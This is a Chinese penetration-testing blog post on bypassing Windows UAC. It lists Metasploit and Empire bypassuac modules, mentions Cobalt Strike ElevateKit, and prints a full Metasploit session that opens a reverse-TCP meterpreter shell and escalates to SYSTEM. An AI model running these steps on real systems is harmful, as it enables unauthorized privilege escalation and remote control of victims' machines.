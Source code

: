 ```yaml
---
title: "Windows 绕过 UAC 策略"
date: 2019-07-12T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['windows','uac']
categories: ['内网渗透']

hiddenFromHomePage: false
hiddenFromSearch: false
twemoji: false
lightgallery: true
ruby: true
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false

toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
math:
  enable: false
share:
  enable: true
comment:
  enable: true
---
```



UAC 全称 User Access Control, 其作用为在程序进行管理员权限的操作时对用户进行通知, 经确认以后方可才能继续执行操作.

如果是普通用户, UAC 会让你提供管理员用户的账号密码.

如果是管理员, 则会提醒你是否继续该操作. 这样的管理员就称作"受限管理员" (Administrator 用户除外).

<!--more-->

绕过 UAC 的方式很多, 比如 [hfiref0x/UACME](https://github.com/hfiref0x/UACME), 恕本人技术有限, 暂且先提供以下几种比较"方便"的 UAC 绕过方案.

## metasploit

msf 自带九种 bypassuac 模块.

```
exploit/windows/local/bypassuac
exploit/windows/local/bypassuac_injection_winsxs
exploit/windows/local/bypassuac_comhijack
exploit/windows/local/bypassuac_silentcleanup
exploit/windows/local/bypassuac_eventvwr
exploit/windows/local/bypassuac_sluihijack
exploit/windows/local/bypassuac_fodhelper
exploit/windows/local/bypassuac_vbs
exploit/windows/local/bypassuac_injection
```

其中 `bypassuac`, `bypassuac_injection` 历史久远, `bypassuac_comhijack` 目前还未修复.

以 `exploit/windows/local/bypassuac_comhijack` 为例.

```
msf5 exploit(multi/handler) > use exploit/windows/local/bypassuac_comhijack                                             msf5 exploit(windows/local/bypassuac_comhijack) > set session 1                                                         session => 1                                                                                                                                                                                                                                                                                  msf5 exploit(windows/local/bypassuac_comhijack) > set payload windows/x64/meterpreter/reverse_tcp                       payload => windows/x64/meterpreter/reverse_tcp                                                                          msf5 exploit(windows/local/bypassuac_comhijack) > set lhost 192.168.1.1                                                 lhost => 192.168.1.1                                                                                                    msf5 exploit(windows/local/bypassuac_comhijack) > run                                                                                                                                                                                           [*] Started reverse TCP handler on 192.168.1.1:4444                                                                     [*] UAC is Enabled, checking level...                                                                                   [+] Part of Administrators group! Continuing...                                                                         [+] UAC is set to Default                                                                                               [+] BypassUAC can bypass this setting, continuing...                                                                    [*] Targeting Event Viewer via HKCU\Software\Classes\CLSID\{0A29FF9E-7F9C-4437-8B11-F424491E3931} ...                   [*] Uploading payload to C:\Users\test\AppData\Local\Temp\DCRQHfyu.dll ...                                              [*] Executing high integrity process ...                                                                                [*] Sending stage (206403 bytes) to 192.168.1.99                                                                        [*] Meterpreter session 2 opened (192.168.1.1:4444 -> 192.168.1.99:49164) at 2019-07-12 21:25:32 +0800                                                                                                                                          [*] Cleaining up registry ...

meterpreter > getuid
Server username: DC2\test
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM                                                                          
```

## cobalt strike

cs 自带的 bypassuac 模块与 msf 中的某些模块重复, 添加 [rsmudge/ElevateKit](https://github.com/rsmudge/ElevateKit) 工具包后新增三种 bypassuac 方式, 例如 `uac-wscript`, `uac-token` 等.

![cobaltstrike elevate bypassuac 1](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/2019/cobaltstrike_elevate_bypassuac_1.jpg)

![cobaltstrike elevate bypassuac 2](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/2019/cobaltstrike_elevate_bypassuac_2.jpg)

## empire

empire 中的部分 bypassuac 脚本还是比较新的, 不过全都是以 powershell 方式执行.

```
powershell/privesc/bypassuac
powershell/privesc/bypassuac_eventvwr
powershell/privesc/bypassuac_sdctlbypass
powershell/privesc/bypassuac_wscript
powershell/privesc/bypassuac_env
powershell/privesc/bypassuac_fodhelper
powershell/privesc/bypassuac_tokenmanipulation                                      
```

演示略.